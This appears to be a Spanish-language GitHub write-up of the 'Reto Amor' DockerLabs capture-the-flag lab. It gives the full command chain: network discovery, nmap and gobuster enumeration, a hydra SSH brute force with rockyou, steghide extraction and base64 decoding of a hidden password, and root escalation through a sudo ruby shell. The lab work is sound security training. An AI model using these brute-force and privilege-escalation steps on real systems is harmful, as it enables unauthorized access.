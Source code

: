 **Mayor DIEGO A. ESMERAL M.**


# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔧 Herramientas Empleadas

| HERRAMIENTA | DEFINICION | FUNCIONALIDAD | CASOS DE USO |
|------------|------------|---------------|--------------|
| **DOCKER** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **SCP** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **NETDISCOVER** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **NMAP** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **GOBUSTER** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **HYDRA** | Herramienta de cracking para servicios remotos que permite ataques de fuerza bruta con múltiples protocolos. | Automatiza intentos de autenticación contra servicios como SSH, FTP, HTTP, RDP, etc. | Test de contraseñas débiles, auditoría de accesos, ejercicios de Red Team. |
| **STEGHIDE** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **BASE64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

```bash
## 🛠️ Desglose de Comandos Utilizados


# 1. Transferir carpeta
scp -r amor kali@192.168.1.12:/home/kali/Documents/

# 2. Instalar Docker (si aplica)
sudo apt install docker.io

# 3. Desplegar máquina
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar

# 4. Obtener interfaz de red
ip add

# 5. Escaneo de red en docker0
sudo netdiscover -i docker0 -r 172.17.0.0/24

# 6. Escanear puertos abiertos
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2

# 7. Fuzzing web
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 8. Fuerza bruta SSH
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10

# 9. Acceso por SSH
ssh carlota@172.17.0.2

# 10. Buscar imagen
cd /carlota/Desktop/fotos/vacaciones

# 11. Descargar imagen a Kali
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor

# 12. Extraer contenido oculto
steghide extract -sf imagen.jpg

# 13. Decodificar mensaje oculto
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

# 14. Escalada de privilegios
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'

```
-----------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 Diagrama de flujo

![Diagrama de Flujo](DiagrammeAMOR.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 💬 Resultado Final

Al finalizar el laboratorio se logra:

Identificar servicios expuestos (22, 80).

Obtener acceso SSH por fuerza bruta.

Detectar archivo con datos esteganográficos.

Decodificar contraseña y escalar privilegios a root.

![Herramientas de Ciberseguridad y sus Aplicaciones](Images/27.png)

![Amor](Images/28.png)
